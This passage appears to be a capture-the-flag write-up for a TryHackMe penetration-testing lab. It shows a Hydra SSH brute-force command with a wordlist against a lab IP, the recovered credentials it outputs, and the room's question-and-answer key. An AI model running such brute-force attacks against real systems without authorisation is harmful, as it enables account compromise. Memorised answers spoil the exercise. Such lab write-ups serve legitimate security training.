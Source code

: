 Staff.txt
~~~
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
~~~

Bruteforcing SSH with Hydra
~~~
┌──(wolf㉿piratesec)-[~/BOXES/thm/BasicPentesting]
└─$ hydra -L users -P ~/Tools/rockyou.txt ssh://10.10.40.124 -t 4 -V -I
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-23 12:19:58
DATA] max 4 tasks per 1 server, overall 4 tasks, 14344400 login tries (l:1/p:14344400), ~3586100 tries per task
[DATA] attacking ssh://10.10.40.124:22/
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "123456" - 1 of 14344400 [child 0] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "12345" - 2 of 14344400 [child 1] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "123456789" - 3 of 14344400 [child 2] (0/0)
[ATTEMPT] target 10.10.40.124 - login "Jan" - pass "password" - 4 of 14344400 [child 3] (0/0)
[22][ssh] host: 10.10.40.124   login: jan  password: armando
1 of 1 target successfully completed, 1 valid password found
~~~

# Q5.What is the password?
~~~
ar
~~~

# Q6. What service do you use to access the server(answer in abbreviation in all caps)? 
~~~
SSH
~~~

# Q7. Enumerate the machine to find any vectors for privilege escalation 
# Q8. What is the name of the other user you found(all lower case)?
~~~
kay
~~~
# Q9. If you have found another user, what can you do with this information?
# Q10. What is the final password you obtain?
